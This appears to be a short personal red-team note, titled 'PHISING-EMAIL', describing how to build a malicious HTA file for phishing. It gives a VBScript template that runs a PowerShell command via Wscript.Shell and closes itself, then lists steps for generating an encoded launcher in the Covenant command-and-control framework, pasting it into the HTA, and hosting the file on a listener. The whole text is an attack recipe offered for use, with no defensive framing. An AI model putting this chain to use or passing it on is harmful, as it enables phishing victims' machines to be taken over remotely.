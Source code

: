 ```yaml
---
title: PHISING-EMAIL
updated: 2023-11-03 06:15:29Z
created: 2023-11-03 05:46:14Z
latitude: -33.86881970
longitude: 151.20929550
altitude: 0.0000
---
```


## OUT-WARD
From Nishang
Out-Ward.ps1

1. Create **file.hta** file

```
<script language="VBScript">
  Function DoStuff()
    Dim wsh
	Set wsh = CreateObject("Wscript.Shell")
	wsh.run "<powershell command here>"
	Set wsh = Nothing
  End Function
  DoStuff
  self.close
</script>
```
    

2. In Covenant, generate a **Listener**
3. Go to **Launchers** , **Powershell Launcher** , and click **Generate**
4. Copy the Encoded launcher and paste into the `"<powshell command here>"` section of **file.hta**
5. In Covenant, go to **Listeners** , click listener and add Hosted File
6. Set the **Path** and choose the **file.hta**
